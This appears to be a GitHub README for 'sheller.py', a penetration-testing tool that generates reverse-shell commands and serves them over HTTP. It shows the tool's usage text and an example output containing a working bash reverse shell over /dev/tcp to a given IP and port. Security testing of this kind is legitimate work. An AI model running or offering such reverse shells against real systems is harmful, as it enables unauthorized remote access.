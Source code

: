 # Reverse shell vending machine

This is a VERY simple script that can be used to create your basic reverse-shell commands.

All of this commands can be found online, and several people like [PentestMonkey](https://github.com/pentestmonkey) have made collections of them already. This is another collection, that can be used to insert the local IP and PORT easily.


```
usage: sheller.py [-h] [-l SHELL] [-a LOCALADDR] [-p LOCALPORT] [-o OUTFILE]
                  [-s] [-i INTERFACE] [--httpserver] [--httpport HTTPPORT]

A script to generate reverse shells on various languages and serve them on
http-server.

optional arguments:
  -h, --help           show this help message and exit
  -l SHELL             Language to identify the shell to be built. Use -s to
                       see available shells.
  -a LOCALADDR         Address to connect back to
  -p LOCALPORT         Port to connect back to
  -o OUTFILE           File to write the reverse shell to
  -s                   Print available shells
  -i INTERFACE         Interface name to get ip for reverse shell script
  --httpserver         Server the reverse-shell file on a http server
  --httpport HTTPPORT  Port to start HTTP server in, default 80
  ```
  
  example:

  ```
  sudo python3 sheller.py -l bash -p 8080 --httpserver -i eth4
  ```

  produces:

  ```
  bash -i >& /dev/tcp/169.254.138.91/8080 0>&1
  ```

  and serves it on http-server at all interfaces on port 80 at / http://localhost